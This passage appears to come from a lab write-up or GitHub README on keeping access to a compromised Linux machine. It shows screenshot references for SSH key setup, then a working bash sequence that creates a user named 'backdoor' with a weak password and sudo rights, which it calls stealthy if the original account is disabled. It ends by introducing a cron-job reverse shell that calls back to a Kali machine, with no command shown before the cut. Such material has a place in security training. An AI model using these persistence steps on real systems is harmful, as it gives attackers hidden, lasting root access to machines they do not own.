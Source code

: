 ### 📸 Screenshot: SSH key setup and passwordless login test
![Keygen](images/keygen.PNG)

#### 2. Create a New User with Root Privileges
By taking advantage of root privilege access, you can create a new user and assign it root privilge. This is stealthy and useful if the original account gets disabled.

**Command:**
```bash
useradd -m -s /bin/bash backdoor
echo 'backdoor:backdoor123' | chpasswd
usermod -aG sudo backdoor
```
### 📸 Screenshot: User creation and privilege assignment
![New User](images/newuser.PNG) ![New Use](images/newuse.PNG)

#### 3. Set Up a Cron Job for Reverse Shell
This method calls back to your Kali machine at intervals.
